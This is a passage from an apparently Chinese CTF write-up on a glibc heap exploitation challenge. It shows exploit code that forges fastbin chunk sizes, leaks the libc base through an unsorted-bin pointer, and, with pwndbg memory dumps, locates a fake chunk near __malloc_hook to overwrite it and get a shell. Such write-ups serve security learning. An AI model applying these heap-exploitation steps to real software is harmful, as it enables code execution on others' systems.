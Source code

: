 接下来要malloc回chunk4，但是malloc fastbin有检查，chunksize必须和fastbin_index匹配。

所以覆盖chunk4的size为fastbin大小

```python
allocate(0x10)allocate(0x10)payload = p64(0) * 3payload += p64(0x91)fill(3,payload)allocate(0x80)free(4)libc_base = u64(dump(2)[:8].strip().ljust(8, "\x00"))-0x3c4b78
```

>   ​		unsortbin 有一个特性，就是如果 usortbin 只有一个 bin ，它的 fd 和 bk 指针会指向同一个地址(unsorted bin 链表的头部），这个地址为 main_arena + 0x58 ，而且 main_arena 又相对 libc 固定偏移 0x3c4b20 ，所以得到这个fd的值，然后减去0x58再减去main_arena相对于libc的固定偏移，即得到libc的基地址。所以我们需要把 chunk 改成大于 fastbin 的大小，这样 free 后能进入 unsortbin 让我们能够泄露 libc 基址。
>     我们的目标是覆盖 __malloc_hook 函数，这样我们调用 malloc 时就相当于调用我们写入的内容
>
>   ​		**malloc_hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写** malloc_hook 来 getshell。

```
pwndbg> x/32xg (long long)(&main_arena)-0x400x7f12e66c5ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x00000000000000000x7f12e66c5af0 <_IO_wide_data_0+304>:	0x00007f12e66c4260	0x00000000000000000x7f12e66c5b00 <__memalign_hook>:	0x00007f12e6386ea0	0x00007f12e6386a700x7f12e66c5b10 <__malloc_hook>:	0x0000000000000000	0x00000000000000000x7f12e66c5b20 <main_arena>:	0x0000000000000000	0x0000557ac06f30400x7f12e66c5b30 <main_arena+16>:	0x0000000000000000	0x00000000000000000x7f12e66c5b40 <main_arena+32>:	0x0000000000000000	0x00000000000000000x7f12e66c5b50 <main_arena+48>:	0x0000000000000000	0x00000000000000000x7f12e66c5b60 <main_arena+64>:	0x0000000000000000	0x00000000000000000x7f12e66c5b70 <main_arena+80>:	0x0000000000000000	0x0000557ac06f30e00x7f12e66c5b80 <main_arena+96>:	0x0000000000000000	0x00007f12e66c5b780x7f12e66c5b90 <main_arena+112>:	0x00007f12e66c5b78	0x00007f12e66c5b880x7f12e66c5ba0 <main_arena+128>:	0x00007f12e66c5b88	0x00007f12e66c5b980x7f12e66c5bb0 <main_arena+144>:	0x00007f12e66c5b98	0x00007f12e66c5ba80x7f12e66c5bc0 <main_arena+160>:	0x00007f12e66c5ba8	0x00007f12e66c5bb80x7f12e66c5bd0 <main_arena+176>:	0x00007f12e66c5bb8	0x00007f12e66c5bc8
```

同样的，这里我们也要绕过 malloc 的安全检查，chunksize 必须与 fastbin_index 相对应，初看 __malloc_hook 附近没有合适的 chunksize，这里需要巧妙的偏移一下。

```
pwndbg> x/32xg (long long)(&main_arena)-0x40+0xd
0x7f12e66c5aed <_IO_wide_data_0+301>:	0x12e66c4260000000	0x000000000000007f <=fake chunk
0x7f12e66c5afd:	0x12e6386ea0000000	0x12e6386a7000007f
0x7f12e66c5b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7f12e66c5b1d:	0x0000000000000000	0x7ac06f3040000000
0x7f12e66c5b2d <main_arena+13>:	0x0000000000000055	0x0000000000000000
0x7f12e66c5b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b4d <main_arena+45>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b6d <main_arena+77>:	0x0000000000000000	0x7ac06f30e0000000
0x7f12e66c5b7d <main_arena+93>:	0x0000000000000055	0x12e66c5b78000000
0x7f12e66c5b8d <main_arena+109>:	0x12e66c5b7800007f	0x12e66c5b8800007f
0x7f12e66c5b9d <main_arena+125>:	0x12e66c5b8800007f	0x12e66c5b9800007f
0x7f12e66c5bad <main_arena+141>:	0x12e66c5b9800007f	0x12e66c5ba800007f
0x7f12e66c5bbd <main_arena+157>:	0x12e66c5ba800007f	0x12e66c5bb800007f
0x7f12e66c5bcd <main_arena+173>:	0x12e66c5bb800007f	0x12e66c5bc800007f
0x7f12e66c5bdd <main_arena+189>:	0x12e66c5bc800007f	0x12e66c5bd800007f
```
